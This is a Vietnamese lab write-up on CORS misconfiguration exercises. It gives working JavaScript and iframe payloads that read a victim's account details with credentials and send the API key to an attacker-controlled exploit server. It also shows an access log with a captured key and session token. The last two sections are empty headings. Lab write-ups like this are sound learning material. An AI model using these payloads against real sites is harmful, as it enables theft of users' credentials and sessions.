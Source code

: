 # 1. CORS vulnerability with basic origin reflection
Ta thấy khi gửi request `GET /accountDetails`, trong response sẽ chứa thông tin đầy đủ về user trong phiên hiện tại. Như vậy ta vào exploit server và cấu hình đoạn code sau:

```
<script>
let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a9f008704a74bedc06f45ff00f600cd.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
fetch('https://exploit-0ab7003c04f14b63c07644d50138000b.exploit-server.net/exploit?apiKey='+this.responseText);
}
</script>
```
Đoạn script trên sẽ gửi request đến `/accountDetails`, lấy ra response rồi đặt làm tham số trong request gửi tới exploit server mà ta kiểm soát.

Sau khi click "Deliver to victim", vào Access log ta thấy có một request với tham số apiKey là một object:

![image](https://user-images.githubusercontent.com/103978452/210699785-c2fc9ed4-50fa-4d0c-82cd-3424d39d6f3b.png)

Thực hiện URL decode, rồi lấy giá trị của trường "apikey" để submit, kết quả thành công.

# 2. CORS vulnerability with trusted null origin
Nhận thấy trong request `/accountDetails`, khi đặt `Origin: null` thì response trả về chứa header `Access-Control-Allow-Origin: null`. Như vậy ta có thể exploit bằng cách dùng tag iframe để tự động thiết lập `Origin: null`.

Vào exploi server và cấu hình đoạn code sau:
```
<iframe src="data:text/html,<script>let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a47008204d3fe7bc0c6c26e00f2002c.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
document.location='https://exploit-0a400044046dfe6ec0d3c132019600e6.exploit-server.net/?data='+this.responseText;
}
</script>">
```

Do thẻ iframe có thuộc tính `src="data:text/html,....`, Origin sẽ tự động được thiết lập là null và từ đó có thể bypass CORS. Sau khi click "Deliver to victim", vào trong Access log thì ta thấy có request:
```
10.0.4.254      2023-01-06 08:51:25 +0000 "GET /?data={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22n2daOK1lnvFCmG9DwadLa7iTt1vZieUi%22,%20%20%22sessions%22:%20[%20%20%20%20%22OZnSVCGK2EuB1QXu7RplVCP9Osicu5Gg%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

Tiến hành URL decode, ta thu được `apikey=n2daOK1lnvFCmG9DwadLa7iTt1vZieUi`. Submit thông tin có được, kết quả thành công.

# 3. CORS vulnerability with trusted insecure protocols

# 4. CORS vulnerability with internal network pivot attackCORS vulnerability with internal network pivot attack
